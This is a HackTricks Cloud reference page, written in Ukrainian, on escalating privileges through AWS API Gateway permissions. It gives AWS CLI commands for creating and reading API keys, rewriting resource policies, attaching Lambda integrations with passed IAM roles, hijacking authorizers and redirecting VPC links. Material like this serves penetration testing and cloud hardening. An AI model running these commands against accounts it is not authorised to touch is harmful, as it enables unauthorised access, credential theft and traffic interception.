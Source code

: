 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

З цим дозволом ви можете генерувати ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway create-api-key
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:GET`

З цією дозволом ви можете отримати згенеровані ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

З цими дозволами можливо змінити політику ресурсу API, щоб надати собі доступ до його виклику та зловживати потенційним доступом, який може мати API gateway (наприклад, виклик вразливої лямбди).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Потенційний вплив:** Зазвичай ви не зможете підвищити привілеї безпосередньо за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволами `apigateway:PutIntegration`, `apigateway:CreateDeployment` та `iam:PassRole` може **додати нову інтеграцію до існуючого API Gateway REST API з функцією Lambda, до якої прикріплено IAM роль**. Потім зловмисник може **викликати функцію Lambda для виконання довільного коду і потенційно отримати доступ до ресурсів, пов'язаних з IAM роллю**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Доступ до ресурсів, пов'язаних з IAM роллю функції Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:UpdateAuthorizer` та `apigateway:CreateDeployment` може **модифікувати існуючий авторизатор API Gateway**, щоб обійти перевірки безпеки або виконати довільний код під час виконання запитів до API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Обхід перевірок безпеки, несанкціонований доступ до ресурсів API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволом `apigateway:UpdateVpcLink` може **змінити існуюче VPC Link, щоб вказати на інший мережевий балансувальник навантаження, потенційно перенаправляючи приватний трафік API на несанкціоновані або шкідливі ресурси**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Потенційний вплив**: Несанкціонований доступ до приватних ресурсів API, перехоплення або порушення трафіку API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
